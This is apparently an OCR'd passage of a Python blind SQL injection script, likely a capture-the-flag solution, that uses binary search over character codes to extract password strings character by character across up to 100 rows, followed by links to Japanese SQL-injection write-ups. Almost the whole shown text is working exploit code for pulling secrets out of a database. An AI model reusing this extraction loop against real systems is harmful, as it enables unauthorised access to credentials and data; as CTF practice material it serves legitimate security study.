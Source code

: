 ```python
    print("")
    return ok
        
def exploit_2tansaku(length,times):
    fix_pass = ""
    for i in range(0,length):
        ok = 0
        ng = 127
        while ok + 1!= ng:
            md = (ok + ng) // 2
            print("    [+] try " + str(md) + "  i: " + str(i) + "  times:" + str(times))
            query = create_2tansaku_query(md,i+1,times)
            res = attack(query)
            if check_result(res):
                ok = md
            else:
                ng = md
        fix_pass += str(chr(ok))
        print("")
        print("progress: " + str(i+1) +"/" + str(length))
        print("result: " + fix_pass)
        print("")
    return fix_pass

#length = exploit_length()
#length = 24
#exploit_2tansaku(int(length))

result = []
loop_times = 100

for i in range(loop_times):
    print("[*] " + str(i) + " times")
    print("")
    length = exploit_length(i)
    res = exploit_2tansaku(length,i)
    if(res == ""):
        print("[-] fix_pass is None. loop break")
        break
    result.append(res)

print("")
print("[-] exploit finished")
[print(a) for a in result]
```
# メモ
https://www.hamayanhamayan.com/entry/2020/06/25/222618  
https://graneed.hatenablog.com/entry/2019/12/29/115100#SQL-Injection  
https://graneed.hatenablog.com/entry/2018/12/16/003745  
https://sqliteonline.com/  
